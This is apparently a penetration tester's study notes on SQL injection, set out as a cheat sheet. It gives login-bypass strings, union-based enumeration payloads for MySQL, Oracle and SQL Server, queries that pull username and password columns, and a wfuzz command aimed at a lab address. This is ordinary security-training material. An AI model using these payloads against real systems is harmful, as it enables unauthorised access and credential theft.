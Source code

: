 ### Normal SQL Injection

The `normal` type of SQL injection attacks are ones that actually give you some output to work with.  You may or may not get an error code that shows you to full SQL query, but you can at least see some output.

#### Fuzzing

1. Try to generate an error to see if it's sanitizing text

   ```sql
   -- Enter an answer with a single quote
   test'
   ```

2. If an error is generated, try to gain control of the query without generating an error (note, this can also be used to bypass a login prompt sometimes)

   ```sql
   -- MySQL
   test' or 1=1;#
   -- Oracle
   test' or 1=1--
   -- SQL Server
   test' or 1=1 )--
   ```

#### Enumeration

1. If you can do this, then begin enumeration by determining the number of columns until it breaks.  You will likely need to play with the syntax until you find the right quotes, semicolons, comment markers, etc

   ```sql
   -- Past MySQL examples
   text' order by 4--
   -- OR
   1 order by 1
   -- Past Oracle example
   text' order by 4--
   ```

2. Once you find the number of columns, you may need to figure out the data type of each column.  You can examine the output and make an educated guess on which column text is allowed to show up.
   This is just bruteforce, finding which combination works.  You can use any valid tables as the target, but just use numbers as the fields to keep it simple.  Single quotes turns a number to text.

   ```sql
   -- Oracle Example (Not sure if I needed the FROM table)
   test' union all select '1','2','3' FROM all_tables--
   test' union all select '1','2',3 FROM all_tables--WIN
   test' union all select '1',2,'3' FROM all_tables--
   test' union all select '1',2,3 FROM all_tables--
   test' union all select 1,'2','3' FROM all_tables--
   test' union all select 1,'2',3 FROM all_tables--
   test' union all select 1,2,'3' FROM all_tables--
   test' union all select 1,2,3 FROM all_tables--
   
   -- MS SQL
   test' union all select 1,2,3--
   ```

   Once you find the right combo, this will also tell you where the data from the columns falls in the output based on where you see the numbers as well as any columns that aren't displayed, demonstrated by missing numbers.

3. List the Database version (and check for vulnerabilities on it):

   ```sql
   -- MySQL
   1 union all select 1, 2, @@version
   -- Oracle
   test' union all select '1',banner,3 FROM v$version--
   
   -- Options
   --Oracle 	SELECT banner FROM v$version
   --			SELECT version FROM v$instance
   --Microsoft 	SELECT @@version
   --PostgreSQL 	SELECT version()
   --MySQL 	SELECT @@version 
   --H2		SELECT H2VERSION() FROM DUAL
   ```

4. List the tables in the database:

   ```sql
   -- MySQL
   1 union all select 1,  table_name, 3 from information_schema.tables
   
   -- Oracle
   test' union all select table_name,'2',3 FROM all_tables--
   ```

5. Check out the columns of tables of interest

   ```sql
   -- MySQL
   1 union all select 1,  column_name, 3 from information_schema.columns where table_name='users'
   
   -- Oracle
   test' union all select column_name,'2',3 FROM all_tab_cols WHERE table_name = 'NAME'--
   ```

6. List columns of interest from tables of interest.  You can list as many columns as you have appropriate fields for.

   ```sql
   -- MySQL
   1 union all select 1, username, password from users
   
   -- Oracle
   test' union all select user_name,password,3 FROM web_users--
   ```

#### Automated Fuzzing

You can try to do automated fuzzing with wfuzz, but I've had better results doing it manually.

```bash
# Generating jobs using bad_chars.txt and an example data payload obtained from BurpSuite
wfuzz -c --sc 200 -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d 'ip=__EVENTTARGET=&__EVENTARGUMENT=&__VIEWSTATE=ulyGXDJSSf%2FbIEz1fwPaNgTv40OT%2FY4xY%2Bm25rKOusBcCt6fZiydyA4zc%2BVE%2BVqcfZMS9qDXTUMBHRAac5%2FSfRpAoQbTXaZb1lx%2Fopvoi5c%3D&__VIEWSTATEGENERATOR=A9B807B2&__EVENTVALIDATION=CN9RbdSLtXu9hfxZ%2BvXVwj3IhtM53%2FJ2DnZp%2BkVHJlsY7JnSqKiaerwXt01pTN5ibhN7bOBtqbwcUw4I1xic9ERX%2F7BMElKvt1I2kuvxJvrUgBBg0lIou8nen6UQVgJ%2Bl%2FlgFoKLwDHdQCTuO6o9%2F1Z0tbuFYiCBZEu%2FoB%2BgOkc%3D&ctl00%24MainContent%24UsernameBox=FUZZ&ctl00%24MainContent%24emailBox=asdasd&ctl00%24MainContent%24submit=Submit' -u http://10.11.1.229/ -v --oF wfuzz.txt
```

This site has some good wordlists:  https://github.com/payloadbox

#### Links

Excellent SQL Injection Cheat Sheet:  https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

Another good cheat sheet:  https://sqlwiki.netspi.com/injectionTypes/unionBased/#mysql

Some more details on SQLi:  https://www.exploit-db.com/papers/12975